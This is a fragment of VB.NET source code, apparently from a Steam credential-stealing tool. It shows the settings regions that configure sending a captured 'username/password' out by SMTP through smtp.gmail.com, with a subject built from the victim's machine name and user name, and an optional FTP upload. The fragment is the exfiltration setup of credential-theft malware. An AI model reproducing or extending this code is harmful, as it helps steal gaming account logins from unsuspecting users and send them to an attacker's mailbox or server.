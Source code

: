     #End Region

#### SMTP settings:

    #Region " SMTP Sending Configuration"

        ''' <summary>
        ''' If set to <c>True</c>, enables STMP sending of the username/password.
        ''' </summary>
        Public Shared ReadOnly EnableSmtp As Boolean = True

        ''' <summary>
        ''' The SMTP server.
        ''' </summary>
        Public Shared ReadOnly SmtpServer As New SmtpClient("smtp.gmail.com")

        ''' <summary>
        ''' The SMTP server port.
        ''' </summary>
        Public Shared ReadOnly SmtpPort As Integer = 0

        ''' <summary>
        ''' The SMTP security.
        ''' </summary>
        Public Shared ReadOnly SmtpSslEnabled As Boolean = True

        ''' <summary>
        ''' The mail account address.
        ''' </summary>
        Public Shared ReadOnly MailAddress As New MailAddress("name@serv.com")

        ''' <summary>
        ''' The mail account username/password credentials.
        ''' </summary>
        Public Shared ReadOnly MailCredentials As New NetworkCredential("username", "password")

        ''' <summary>
        ''' The mail subject.
        ''' By default is "Steam_{ComputerName}_{Username}_{Day}-{Month}-{Year}_{Hour}-{Minute}-{Seconds}"
        ''' </summary>
        Public Shared ReadOnly MailSubject As String =
            String.Format("Steam_{0}_{1}_{2}", Environment.MachineName, Environment.UserName, DateTime.Now.ToString("dd-MM-yyyy\_hh-mm-ss"))

    #End Region

#### FTP settings:

    #Region " FTP Uploading Configuration "

        ''' <summary>
        ''' If set to <c>True</c>, enables FTP upload of the username/password.
        ''' </summary>
        Public Shared ReadOnly EnableFtp As Boolean = False

        ''' <summary>
        ''' The FTP Server address.
        ''' </summary>
        Public Shared ReadOnly FtpAddress As Uri = New Uri("ftp://127.0.0.1/")
